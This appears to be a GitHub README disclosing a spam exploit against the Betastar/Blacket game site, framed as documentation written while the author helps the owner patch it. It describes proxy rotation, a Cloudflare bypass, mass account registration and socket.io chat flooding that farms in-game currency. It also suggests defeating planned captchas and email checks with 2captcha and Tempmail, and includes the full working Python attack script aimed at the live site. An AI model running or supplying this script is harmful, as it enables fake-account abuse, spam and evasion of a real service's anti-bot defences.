 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, and its insecurity makes exploits very awful.  


### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy looper.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit "smes" with a set message attached.  
The funny thing is that each chat message gives you 1 "atom" (currency of Betastar), and you can trade them in almost the same way you use the chat, by connecting with socket.io. I don't have the time or patience to implement trading yet, but it goes like so:

the trade menu is almost handled the same way as the chat, you just emit ```trade``` with the value of the user you want to request, ```cancelTrade``` to cancel the trade, handle ```accepted``` for when the trade is accepted, handle ```tradeCancelled``` for when the trade is cancelled, etc.

a get request to ```/api/claim``` automatically claims a daily reward  
a get request to ```/api/user?name=(username)``` lists the stats of a user (equivalent to ```f4``` in game for the api)  
a get request to ```/api/news``` lists the news posts  
a get request to ```/api/lcheck``` checks if you're logged in  
a get request to ```/api/elements``` gets a list of all the buyable elements  
a get request to ```/api/crates``` gets a list of all the buyable crates  
a get request to ```/lib/api/config``` does nothing it seems unless you're the owner.  
a post request to ```/api/sell/``` with the data ```element=(element)&quantity=(quantity)``` sells an element with a specified quantity  

Xotic did send me, while we were talking over Discord, a list of all the endpoints. Unfortunately, I am busy and don't have the time to document ALL of them and what they do, but I do have the list of every endpoint in the API.

![image](https://user-images.githubusercontent.com/102484505/171060995-2f8df054-8ba4-46bf-a461-b03cd3827685.png)


### How it stopped being made: Communication with Xotic.
He will implement captchas (can be bypassed with 2captcha and/or API endpoints will be left vulnerable) on registration pages, along with possible email verification (can be bypassed by Tempmail APIs). However, the API endpoints may still be insecure. I will update this if necessary and will try to give Xotic instructions on how to fix it.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  

I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**

## The full code
I know you skids want the code, so here we go.  
This took around 45 minutes to an hour to develop and proxy scraping took like 30 minutes.

```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```

## What happens next?

What Xotic is implementing now:
- Proxy blacklists (from the code of my proxy scraper)
- Cooldown spam mutes/bans
- Prevention of using the same IP for multiple accounts (1 alt maximum per IP)
- socket.io socket security

We've talked this over together and found this to be a good idea and good things to implement.  
Therefore, this exploit will be patched very soon. Don't worry, this is just a documentation of how the API COULD be exploited, and I have done nothing to ruin the economy or harm the website in any way.

**Some of this was made from what I posted on my pr ([here](https://github.com/XOTlC/Blacket/pull/51#issuecomment-1141480027))**
